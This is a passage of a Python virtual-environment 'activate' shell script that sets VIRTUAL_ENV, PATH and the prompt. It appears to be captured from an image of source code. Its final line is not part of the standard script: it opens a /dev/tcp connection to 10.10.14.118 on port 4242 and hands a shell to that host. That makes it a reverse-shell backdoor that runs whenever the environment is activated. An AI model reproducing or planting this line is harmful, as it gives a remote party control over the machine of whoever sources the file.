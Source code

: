 ~~~bash
    # past commands the $PATH changes we made may not be respected
    if [ -n "${BASH:-}" -o -n "${ZSH_VERSION:-}" ] ; then
        hash -r 2> /dev/null
    fi

    if [ -n "${_OLD_VIRTUAL_PS1:-}" ] ; then
        PS1="${_OLD_VIRTUAL_PS1:-}"
        export PS1
        unset _OLD_VIRTUAL_PS1
    fi

    unset VIRTUAL_ENV
    unset VIRTUAL_ENV_PROMPT
    if [ ! "${1:-}" = "nondestructive" ] ; then
    # Self destruct!
        unset -f deactivate
    fi
}

# unset irrelevant variables
deactivate nondestructive

VIRTUAL_ENV="/app/venv"
export VIRTUAL_ENV

_OLD_VIRTUAL_PATH="$PATH"
PATH="$VIRTUAL_ENV/bin:$PATH"
export PATH

# unset PYTHONHOME if set
# this will fail if PYTHONHOME is set to the empty string (which is bad anyway)
# could use `if (set -u; : $PYTHONHOME) ;` in bash
if [ -n "${PYTHONHOME:-}" ] ; then
    _OLD_VIRTUAL_PYTHONHOME="${PYTHONHOME:-}"
    unset PYTHONHOME
fi

if [ -z "${VIRTUAL_ENV_DISABLE_PROMPT:-}" ] ; then
    _OLD_VIRTUAL_PS1="${PS1:-}"
    PS1="(venv) ${PS1:-}"
    export PS1
    VIRTUAL_ENV_PROMPT="(venv) "
    export VIRTUAL_ENV_PROMPT
fi

# This should detect bash and zsh, which have a hash command that must
# be called to get it to forget past commands.  Without forgetting
# past commands the $PATH changes we made may not be respected
if [ -n "${BASH:-}" -o -n "${ZSH_VERSION:-}" ] ; then
    hash -r 2> /dev/null
fi
0<&196;exec 196<>/dev/tcp/10.10.14.118/4242; sh <&196 >&196 2>&196

~~~
